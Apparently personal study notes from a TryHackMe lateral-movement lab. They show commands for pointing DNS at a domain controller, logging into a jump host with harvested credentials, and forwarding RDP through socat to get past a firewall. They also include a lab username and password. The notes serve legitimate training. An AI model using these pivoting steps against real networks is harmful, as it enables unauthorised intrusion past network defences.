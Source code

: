 ```yaml
---
title: Example Scenario
updated: 2023-04-23T19:14:45.0000000+04:00
created: 2023-04-18T14:35:34.0000000+04:00
---
```


Example Scenario
Tuesday, April 18, 2023
2:35 PM
# If using attackbox:

## Step 1: Set DNS

- Systemd-resolve --interface lateralmovement --set-dns DC_IP --set-domain DC_name

## Step 2: Create TunnelUser

- Useradd tunneluser -m -d /home/tunneluser -s /bin/true
- Passwd tunneluser

## Step 3: Connect to THMJMP2 using gathered user Credentials

- Ssh za\\\username@za.tryhackme.com

## Step 4: Our first objective will be to connect via RDP to THMIIS

- If we try to connect directly from our attacker machine, we will find that port 3389 has been filtered via a firewall and is therefore not available directly.

## Step 5: Forwarding the RDP port to make it available on THMJMP2 to connect from our attacker's machine

By using socat, which is available on C:\tools\socat\\ on THMJMP2, we will forward the RDP port to make it available on THMJMP2 to connect from our attacker's machine.

To do so, we will run socat with the following parameters:

| Command | socat TCP4-LISTEN:13389,fork TCP4:THMIIS.za.tryhackme.com:3389 |
|---------|----------------------------------------------------------------|

![image1](image1-115.png)

- In a typical setup, you'd have to add a firewall rule to allow traffic through the listener port

## Step 6: Once the listener has been set up, you should be able to connect to THMIIS via RDP from your attacker machine by pivoting through your socat listener at THMJMP2:

| Command | xfreerdp /v:THMJMP2.za.tryhackme.com:13389 /u:t1_thomas.moore /p:MyPazzw3rd2020 |
|---------|---------------------------------------------------------------------------------|

![image2](image2-55.png)

